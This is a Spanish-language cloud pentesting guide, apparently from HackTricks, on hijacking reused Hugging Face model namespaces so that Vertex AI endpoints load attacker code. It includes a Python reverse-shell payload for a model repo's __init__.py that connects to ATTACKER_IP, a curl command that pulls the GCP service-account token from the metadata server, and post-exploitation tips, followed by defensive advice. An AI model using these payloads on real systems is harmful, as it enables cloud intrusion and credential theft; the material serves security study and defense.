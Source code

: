 # GCP - Vertex AI Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Escenario

- Vertex AI Model Garden permite el despliegue directo de muchos modelos de Hugging Face (HF).
- Los identificadores de modelo de HF son Author/ModelName. Si un author/org en HF es eliminado, el mismo nombre de author puede ser registrado de nuevo por cualquiera. Los atacantes pueden entonces crear un repo con el mismo ModelName en la ruta heredada.
- Pipelines, SDKs o catálogos cloud que obtienen por nombre únicamente (sin pinning/integrity) cargarán el repo controlado por el atacante. Cuando el modelo se despliega, loader code de ese repo puede ejecutarse dentro del contenedor del endpoint de Vertex AI, produciendo RCE con los permisos del endpoint.

Dos casos comunes de takeover en HF:
- Eliminación de propiedad: la ruta antigua devuelve 404 hasta que alguien vuelve a registrar al author y publica el mismo ModelName.
- Transferencia de propiedad: HF emite 307 redirects desde el antiguo Author/ModelName al nuevo owner mientras el antiguo author exista. Si el antiguo author es eliminado más tarde y re-registrado por un atacante, la cadena de redirects se rompe y el repo del atacante responde en la ruta heredada.

## Identificando espacios de nombres reutilizables (HF)

- Autor antiguo eliminado: la página del author devuelve 404; la ruta del model puede devolver 404 hasta el takeover.
- Modelos transferidos: la ruta del modelo antiguo emite 307 hacia el nuevo owner mientras el author antiguo exista. Si el author antiguo se elimina más tarde y se re-registra, la ruta heredada resolverá al repo del atacante.

Comprobaciones rápidas con curl:
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>
# 200 = exists, 404 = deleted/available

# Check old model path behavior
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 = redirect to new owner (transfer case)
# 404 = missing (deletion case) until someone re-registers
```
## Flujo end-to-end Attack contra Vertex AI

1) Descubrir namespaces de modelos reutilizables que Model Garden lista como deployable:
- Encontrar modelos HF en Vertex AI Model Garden que aún aparecen como “verified deployable”.
- Verificar en HF si el autor original fue eliminado o si el modelo fue transferido y el autor antiguo fue eliminado después.

2) Volver a registrar al autor eliminado en HF y recrear el mismo ModelName.

3) Publicar un repo malicioso. Incluir código que se ejecute al cargar el modelo. Ejemplos que comúnmente se ejecutan durante la carga de modelos en HF:
- Efectos secundarios en __init__.py del repo
- Código personalizado modeling_*.py o de procesamiento referenciado por config/auto_map
- Rutas de código que requieren trust_remote_code=True en pipelines de Transformers

4) Un deployment de Vertex AI del legacy Author/ModelName ahora tira del repo del atacante. El loader se ejecuta dentro del contenedor del endpoint de Vertex AI.

5) El payload establece acceso desde el entorno del endpoint (RCE) con los permisos del endpoint.

Fragmento de payload de ejemplo ejecutado en import (solo para demostración):
```python
# Place in __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # Or python -c exec ...

if os.environ.get("VTX_AI","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Notas
- Los loaders en entornos reales varían. Muchas integraciones Vertex AI HF clonan e importan módulos del repo referenciados por la configuración del modelo (p. ej., auto_map), lo que puede desencadenar ejecución de código. Algunos usos requieren trust_remote_code=True.
- El endpoint típicamente se ejecuta en un contenedor dedicado con alcance limitado, pero es un punto de apoyo inicial válido para acceso a datos y movimiento lateral en GCP.

## Consejos de posexplotación (Vertex AI Endpoint)

Una vez que el código se está ejecutando dentro del contenedor del endpoint, considera:
- Enumerar variables de entorno y metadata en busca de credenciales/tokens
- Acceder a almacenamiento adjunto o a artefactos del modelo montados
- Interactuar con Google APIs usando la identidad de la cuenta de servicio (Document AI, Storage, Pub/Sub, etc.)
- Persistencia en el artefacto del modelo si la plataforma vuelve a clonar el repo

Enumera la metadata de la instancia si es accesible (dependiente del contenedor):
```bash
curl -H "Metadata-Flavor: Google" \
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
## Orientación defensiva para usuarios de Vertex AI

- Anclar modelos por commit en los HF loaders para evitar reemplazos silenciosos:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Espejar modelos HF verificados en un almacén/registro interno de artefactos de confianza y desplegar desde allí.
- Escanear continuamente las bases de código y las configs en busca de Author/ModelName codificados que hayan sido eliminados/transferidos; actualizar a los nuevos espacios de nombres o fijarlos a un commit.
- En Model Garden, verificar la procedencia del modelo y la existencia del autor antes del despliegue.

## Heurísticas de reconocimiento (HTTP)

- Autor eliminado: página del autor 404; ruta de modelo heredada 404 hasta la toma de control.
- Modelo transferido: la ruta heredada responde 307 al nuevo autor mientras el autor antiguo existe; si el autor antiguo se elimina y vuelve a registrarse más tarde, la ruta heredada sirve contenido del atacante.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Referencias cruzadas

- Consulte la metodología general y las notas sobre la cadena de suministro:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Referencias

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
